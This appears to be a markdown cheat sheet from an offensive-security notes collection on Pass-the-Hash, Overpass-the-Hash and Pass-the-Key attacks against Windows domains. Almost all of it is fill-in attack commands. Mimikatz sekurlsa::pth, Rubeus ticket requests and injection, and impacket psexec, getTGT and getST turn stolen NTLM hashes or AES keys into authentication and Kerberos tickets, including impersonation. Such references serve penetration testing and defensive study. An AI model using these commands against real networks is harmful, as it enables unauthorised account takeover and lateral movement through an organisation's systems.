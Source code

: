 # Pass The Hash
You have a name and a hash? You can use the secret as authentication for the domain or other services. You can also request a Kerberos TGT or ST. This could be especially useful in networks where NTLM protocol is disabled and only Kerberos is allowed as authentication protocol.

*Pass The Key:* DES, AES-128, AES-256 hash to obtain Kerberos tickets 
*Overpass The Hash:* NT hash to obtain Kerberos tickets

Requirements:
* User name
* A secret (password or hash) of the target user account

---

## Use key
`Sekurlsa::pth /user:<USER> /domain:<DOMAIN> /ntlm:<HASH>`
`Sekurlsa::pth /user:<USER> /domain:<DOMAIN> /aes256:<AES256 KEY>`
`Rubeus.exe ptt /ticket:<BASE64/FILE.KIRBI>`

`python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`

## Get kerberos tickets 
#### Remote
`impacket-getTGT -dc-ip <IP> <DOMAIN>/<USER> -hashes :<HASH>`
`impacket-getST -spn <SERVICE> -dc-ip <IP> <DOMAIN>/<USER> -hashes :<HASH>`
impacket-getST can also impersonate someone if the user has impersonate set.

#### Local
`Rubeus.exe asktgt /user:<USER> /password:<PASS>`
`Rubeus.exe asktgs /ticket:<BASE64/FILE.KIRBI> /service:<SPN>`